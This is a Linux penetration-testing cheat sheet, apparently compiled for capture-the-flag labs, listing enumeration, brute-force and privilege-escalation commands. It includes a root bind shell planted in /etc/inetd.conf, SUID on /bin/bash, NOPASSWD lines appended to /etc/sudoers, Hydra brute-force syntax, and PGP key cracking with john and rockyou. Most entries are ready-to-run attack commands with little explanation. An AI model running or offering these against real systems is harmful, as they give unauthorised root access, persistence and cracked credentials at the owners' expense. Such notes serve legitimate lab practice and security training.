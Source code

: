#### Finding SUID Binaries
```
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

#### Finding Writable Directories
```
find -type f -maxdepth 2 -writable
```

#### ifconfig alternative commands
```
netstat -ie
```

#### Bind Shell with inetd
```
echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf
/etc/init.d/inetd restart
```

#### Linux Shared Library Variable
```
LD_LIBRARY_PATH=/usr/lib:/usr/lib64:/usr/local/lib/dev:/usr/local/lib/utils
```

#### Enumeration Scripts
```
linpeas.sh
linuxprivchecker.py
```

#### Firewall Enumeration
```
cat /etc/ufw/user.rules
```

#### Basic Nmap Commands
```
nmap -sV -sC --script vuln -oN filename.nmap [ip]

nmap -T4 -A -p- --script vuln [ip]
```

#### Spawning Interactive Shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

#### Finding Virtual Hosts aka Zone Transfers
```
dig axfr domain.htb @10.10.10.3

host -l domain.htb 10.10.10.3
```

#### Mounting Commands
```
showmount -e 10.0.0.7

mount -t nfs 10.0.0.17:/home/user ./mount/directory
```

#### Starting Python FTP Server
```
python -m pyftpdlib -p 21
```

#### Enumerating Running Processes
```
ps axjf --forest

ps aux
```

#### Forwarding Ports with Socat
```
socat tcp-listen:8009,fork tcp:192.168.40.129:8009 &
```

#### Enumerating Open Ports
```
netstat -tulpn

netstat -ntlp
```

#### Spawning tty Shell
```
stty raw -echo; fg
export TERM=xterm-256-color
stty rows 32 columns 158

Use "stty -a" to see current shell information
```

#### Starting smb service
```
sudo systemctl start smbd.service nmbd.service
```

#### PGP Decryption
```
gpg2john creds.priv > creds4john
john --wordlist=/usr/share/wordlists/rockyou.txt creds4john
echo "qwertyuiop" | gpg --batch --yes --allow-secret-key-import --import creds.priv
echo "qwertyuiop" | gpg --batch --yes --decrypt --passphrase-fd 0 creds.txt.gpg
```

#### Common Privilege Escalation Techniques
```
If there is a schedules process that runs as root you can add extra permissions to bash
( chmod +s /bin/bash)

(Making your account able to run sudo commands)
echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers && chmod 440 /etc/sudoers
echo "www-data ALL=(root) NOPASSWD: /bin/bash" >> /etc/sudoers
```

#### Basic Hydra Syntax
```
hydra -l <username> -P /usr/share/wordlists/rockyou.txt <ip> http-post-form "/index.php:username=USER&password=PASS:Incorrect"

hydra -l <username> -P <wordlist> <ip> ssh/smb/rdp
```

